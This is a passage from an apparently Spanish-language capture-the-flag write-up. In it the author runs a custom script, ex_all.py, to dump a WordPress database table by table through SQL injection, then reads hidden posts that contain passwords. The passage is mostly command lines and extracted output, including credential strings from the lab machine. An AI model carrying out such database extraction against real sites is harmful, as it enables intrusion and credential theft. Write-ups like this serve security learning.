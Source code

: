 ```bash
❭ python3 ex_all.py wordpress
[+] Extrayendo tablas de la base de datos wordpress: d0Ne
[+] Payload: d0Ne

...
[+] Tabla [5]: wp_posts
...
```

```bash
❭ python3 ex_all.py wordpress wp_posts
[+] Extrayendo columnas de la tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] Columna [4]: post_content
[+] Columna [5]: post_title
...
```

```bash
❭ python3 ex_all.py wordpress wp_posts post_status
[+] Info columna post_title - tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] [34]: Stardate 55132.2
[+] [35]: Passwords 
[+] [36]: Passwords
[+] [37]: Passwords
[+] [38]: YAYAYAYAY.
...
```

Vemos 2 posts conocidos, pero 3 con un nombre bastante llamativo y que no vimos en nuestro reconocimiento web... Enfoquémonos en las filas 35, 36 y 37. Echemos un ojo a su contenido:

```bash
❭ python3 ex_all.py wordpress wp_posts post_content
[+] Info columna post_content - tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] [35]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 ZD3YxfnSjezg67JZ u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
[+] [36]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
[+] [37]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 ZD3YxfnSjezg67JZ u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
...
```

What jjaja, que loco esto, en el lugar menos pensado vemos lo que parecen ser unas contraseñas (y el post lo dice tambien :P):
